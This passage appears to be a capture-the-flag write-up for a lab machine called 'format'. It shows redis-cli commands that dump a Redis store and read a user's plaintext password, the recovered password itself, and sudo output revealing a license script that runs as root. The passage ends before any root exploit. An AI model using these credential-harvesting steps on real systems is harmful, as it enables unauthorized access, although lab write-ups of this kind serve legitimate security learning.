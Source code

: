 
## Privesc from www-data to cooper

Cooper reused his unix password in his app, and since it is stored in plaintext in the redis hash, it's easy to get.
```bash
redis-cli -s /var/run/redis/redis.sock

KEYS *
blnkn:sites
PHPREDIS_SESSION:t3g3i4m9j6a46dmv2hdaca9n07
blogger:sites
teo:sites
blogger
blnkn
cooper.dooper:sites
cooper.dooper
PHPREDIS_SESSION:6liutn3vgsftefhr0cjaqg40m0
teo
PHPREDIS_SESSION:tdhboofshr26rv81b7l6ji03dl
PHPREDIS_SESSION:nvmksha2oelt998m8vie9uka9e
PHPREDIS_SESSION:u5d6m7fs5lhvqa2aumlrol8etm
PHPREDIS_SESSION:oiadmngoa4uehic7u6h0bei8a5

HKEYS cooper.dooper
username
password
first-name
last-name
pro

HGET cooper.dooper password
zooperdoopercooper
```

## Privesc from cooper to root

Cooper can execute the pro licence provisioning script as root
```bash
cooper@format:~$ sudo -l
[sudo] password for cooper:
Sorry, try again.
[sudo] password for cooper:
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

It works like that:
```
cooper@format:~$ sudo /usr/bin/license -p blnkn

Plaintext license key:
------------------------------------------------------
microblogblnkn.HO[Vh.t4=]hEo~U-q}z_E_0M5TcSfPa;7_dV2zZblnknblnkn

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkaNcxKqkvhqKsyP2hBWdnDVxkP-T1YxUWust-6UEzL0HToC0q_iYv1cJcEuZHAOqZsC0_dxtC_yhrZpUKPuokCLqCONHVFtd6QZVHOgEPId8MDybhl-XrVs-SV_uvlZsgw5MixGNuxnQ90QAuRM6g_7k11bljq_idNuD2VPxkL794qWo=
```
